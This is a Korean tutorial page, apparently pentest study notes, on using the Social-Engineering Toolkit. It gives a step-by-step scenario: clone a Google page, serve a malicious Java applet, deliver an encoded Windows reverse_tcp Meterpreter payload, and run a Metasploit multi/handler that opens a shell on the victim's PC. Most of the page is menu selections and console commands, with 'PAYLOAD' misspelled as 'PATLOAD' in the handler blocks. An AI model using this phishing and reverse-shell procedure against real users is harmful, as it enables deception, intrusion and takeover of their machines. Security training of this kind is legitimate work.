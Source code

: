 #### SET: 사회공학적 공격 기법
---

* SET(social engineering toolkit)은 사회공학적 이론을 이용한 도구 모음이다.
* 사회공학적인 기법에 사용될 수 있는 마이크로소프트 최신 취약점, 어도비 PDF 취약점, 자바 애플릿 취약점 등 다양한 환경을 자동으로 구성되게 해준다.
{: .notice--info}

/pentest/exploits/set/config 디렉토리로 가서 SELF_SIGNED_APPLET을 ON으로 수정한다.
{: .notice}

---
#### 시나리오3 자바애플릿을 이용한 페이지 유도
---

```
#실행
> .set 
#사회 공학적 기법을 사용하기 위해 메뉴 선택
>1) Social-Engineering Attacks
#가짜 웹사이트를 개설하고 공격하는 단계를 만들기 위해 메뉴 선택
>2) Website Attack Vectors
#자바 애플릿 환경을 만들어 공격하기 위해 메뉴 선택
>1) Java Applet Attack Method
# 미리 정의된 웹사이트를 이용할 것인지 자신이 유도하고자 하는 사이트를 이용할 것인지 선택
>1) Web Templates (미리정의된 웹사이트)
#역으로 공격하는 리버스 공격을 위해 공격 방식을 선택
>7)Windows Reverse_TCP Meterpreter
#대상자 PC에 심을 백도어를 선택한다
>2)shikata_ga_nai(very Good)
#어떤 포트를 리스너로 할 것인지 결정하는데 기본설정되어있는 443을 사용
>
#리눅스와 OS X용 페이로드를 선택하는 부분이다. 테스트 공격 대상자는 윈도우 환경이라 NO를 입력한다.
> no
#이제 메타스플로잇이 실행되고 상대방이 유도되기만을 기다린다.
```

공격 코드 핸들러 생성
{: .notice--success}

```
> use exploit/multi/handler
> set PATLOAD windows/meterpreter/reverse_tcp
> set LHOST 0.0.0.0
> set LPORT 443
> set ExitOnSession false
```

그리고나서 10.10.10.222에 접속하면 미리 작성된 구글 페이지로 넘어간다(복제된 구글 사이트)  
그리고 자바 애플릿이 하나 실행되는데, 실행시키는 순간 백도어가 삽입되고 사용자 PC가 내 PC의 
listen된 포트로 역으로 연결되는 것을 확인할 수 있다. 이를 리버스 공격이라고 불린다.
{: .notice--success}

```
#브라우저를 실행할 때 세션 연결 
> use exploit/multi/handler
> set PATLOAD windows/meterpreter/reverse_tcp
> set LHOST 0.0.0.0
> set LPORT 443
> set ExitOnSession false
> exploit -j
#셸을 입력하여 개인 PC 콘솔 환경 권한 획득 
> shell
```
